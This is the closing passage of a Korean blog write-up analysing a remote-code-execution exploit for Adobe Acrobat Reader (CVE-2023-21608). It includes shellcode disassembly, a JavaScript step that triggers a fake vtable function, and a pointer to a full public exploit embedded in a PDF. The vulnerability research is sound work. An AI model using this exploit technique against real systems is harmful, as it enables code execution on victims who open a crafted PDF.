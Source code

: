 ```nasm
200004cb 90             nop     
200004cc 53             push    ebx
200004cd bb40000020     mov     ebx, 20000040h
200004d2 8b506c         mov     edx, dword ptr [eax+6Ch]
200004d5 c7430ce8ff0000 mov     dword ptr [ebx+0Ch], 0FFE8h
200004dc c74220e8ff0000 mov     dword ptr [edx+20h], 0FFE8h
200004e3 90             nop     
200004e4 895310         mov     dword ptr [ebx+10h], edx
200004e7 8b5070         mov     edx, dword ptr [eax+70h]
200004ea 8913           mov     dword ptr [ebx], edx
200004ec 8b5074         mov     edx, dword ptr [eax+74h]
200004ef 895304         mov     dword ptr [ebx+4], edx
200004f2 31d2           xor     edx, edx
200004f4 5b             pop     ebx
200004f5 90             nop     
200004f6 90             nop     
200004f7 90             nop     
200004f8 ffe6           jmp     esi
```

ROP 페이로드와 Shellcode의 실행은 아래의 코드를 통해 `f0`의 Fake vtable의 `defaultValue`함수에 해당하는 `sub_20EFAA60`를 실행하는 것으로 이루어집니다. 또한 크래시 등 의도치 않은 동작을 방지하기 위해 변조한 `targetStr`과 `targetDV`를 원래의 주소로 복원합니다.

```jsx
corruptedTypedArr[arrStart + 6] = originalTargetStrAddr;
//corruptedTypedArr[FAKE_DV_START+20] = originalDVBackingStore;
corruptedTypedArr[arrStart + 8] = originalTargetDVAddr;

var x = f0.defaultValue;
```

전체 익스플로잇 코드는 [Reference](https://github.com/hacksysteam/CVE-2023-21608)에서 확인할 수 있고 `exploit.pdf`에는 해당 JavaScript 코드가 임베드되어 있어 취약한 버전의 Acrobat이나 Acrobat Reader로 열 경우 위 과정을 통해 RCE가 이루어집니다.

드디어!… 익스플로잇이 끝났습니다… 자바스크립트는 정말 쉽지 않네요… 시연 데모까지만 보여드리고 마치도록하죠!

<iframe width="560" height="315" src="https://www.youtube.com/embed/f3RObd6h2qw?si=l7WAeyWgGJ_MuCWp" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

# Fini

자바스크립트와 관련된 취약점은 처음이었는데 정말 쉽지 않네요… 이런 취약점을 마구 찾는 사람들은 대체 뭐하는 사람들일까 싶습니다 ㅋㅋㅋㅋㅋ 참고할만한 좋은 레퍼런스가 있어서 쉽게?… 분석할 수 있었는데 패치 분석 내용은 없어서 직접 분석해보면서 재밌기도 했고요 시간만 있다면 앞으로도 이런 글 많이 써보도록 하겠습니다!

# Reference

- [https://hacksys.io/blogs/adobe-reader-resetform-cagg-rce-cve-2023-21608](https://hacksys.io/blogs/adobe-reader-resetform-cagg-rce-cve-2023-21608)
- [https://github.com/hacksysteam/CVE-2023-21608](https://github.com/hacksysteam/CVE-2023-21608)
